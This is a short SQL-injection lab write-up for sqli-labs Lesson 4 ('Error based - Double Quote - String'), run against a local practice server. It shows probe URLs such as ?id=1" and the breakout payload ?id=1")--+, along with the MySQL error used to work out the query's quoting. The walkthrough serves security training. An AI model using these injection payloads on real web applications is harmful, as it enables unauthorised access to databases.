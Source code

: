 #### 4. Lesson 4 - ``Error based - Double Quote - String``

```
http://127.0.0.1/sqli-labs/Less-4/
http://127.0.0.1/sqli-labs/Less-4/?id=1
http://localhost/sqli-labs/Less-4/?id=1'
```

![](images/4/1.png)

![](images/4/2.png)

![](images/4/3.png)

```
http://localhost/sqli-labs/Less-4/?id=1"
```

![](images/4/4.png)

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1
```

```
'"1"") LIMIT 0,1' at line 1
'"1"") LIMIT 0,1'
'   "1"") LIMIT 0,1   '
'   "1"   ") LIMIT 0,1   '
'   "  1"   ") LIMIT 0,1   '
1"
```

```
http://localhost/sqli-labs/Less-4/?id=1")--+
```

![](images/4/5.png)
